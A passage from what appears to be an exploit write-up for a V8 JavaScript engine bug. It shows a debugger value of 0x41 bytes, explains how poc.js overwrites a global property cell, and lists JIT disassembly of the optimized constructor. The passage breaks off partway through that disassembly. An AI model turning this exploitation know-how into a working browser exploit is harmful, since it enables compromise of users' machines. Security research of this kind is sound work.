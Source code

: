 $1 = 0x4141414141414141

First Step

Notice that poc.js:5+109 get the address(0x3fd3734c7d89) of PROPERTY_CELL_TYPE , which stores

global variable n . After that, the return of Set Constructor will be writen to n .

In the second loop, Check() will be optimized as this JIT code

<LazyCompile:*Ctor poc.js:5+0>: push rbp

<LazyCompile:*Ctor poc.js:5+1>: mov rbp,rsp

<LazyCompile:*Ctor poc.js:5+4>: push rsi

<LazyCompile:*Ctor poc.js:5+5>: push rdi

<LazyCompile:*Ctor poc.js:5+6>: sub rsp,0x8

<LazyCompile:*Ctor poc.js:5+10>: mov rax,QWORD PTR [rbp-0x8]

<LazyCompile:*Ctor poc.js:5+14>: mov QWORD PTR [rbp-0x18],rax

<LazyCompile:*Ctor poc.js:5+18>: mov rsi,rax

<LazyCompile:*Ctor poc.js:5+21>: cmp rsp,QWORD PTR [r13+0xb78]

<LazyCompile:*Ctor poc.js:5+28>: jae 0x1e16ccf79ca3 <LazyCompile:*Ctor poc.js:5+35>

<LazyCompile:*Ctor poc.js:5+30>: call 0x1e16ccf4ade0 <Builtin:StackCheck>

<LazyCompile:*Ctor poc.js:5+35>: movabs r10,0x3fd3734b1511

<LazyCompile:*Ctor poc.js:5+45>: push r10

<LazyCompile:*Ctor poc.js:5+47>: movabs rdx,0x3fd3734b1511

<LazyCompile:*Ctor poc.js:5+57>: movabs rdx,0x3fd3734b1511

<LazyCompile:*Ctor poc.js:5+67>: xor eax,eax

<LazyCompile:*Ctor poc.js:5+69>: mov rsi,QWORD PTR [rbp-0x18]

<LazyCompile:*Ctor poc.js:5+73>: mov rdi,rdx

<LazyCompile:*Ctor poc.js:5+76>: call 0x1e16ccf3a040 <Builtin:Construct>

<LazyCompile:*Ctor poc.js:5+81>: test al,0x1

<LazyCompile:*Ctor poc.js:5+83>: je 0x1e16ccf79d31 <LazyCompile:*Ctor poc.js:5+177>

<LazyCompile:*Ctor poc.js:5+89>: movabs r10,0x387980f08e51

<LazyCompile:*Ctor poc.js:5+99>: cmp QWORD PTR [rax-0x1],r10

<LazyCompile:*Ctor poc.js:5+103>: jne 0x1e16ccf79d36 <LazyCompile:*Ctor poc.js:5+182>

<LazyCompile:*Ctor poc.js:5+109>: movabs rbx,0x3fd3734c7d89

<LazyCompile:*Ctor poc.js:5+119>: mov QWORD PTR [rbx+0xf],rax

<LazyCompile:*Ctor poc.js:5+123>: lea rdx,[rbx+0xf]

<LazyCompile:*Ctor poc.js:5+127>: and rax,0xfffffffffff00000

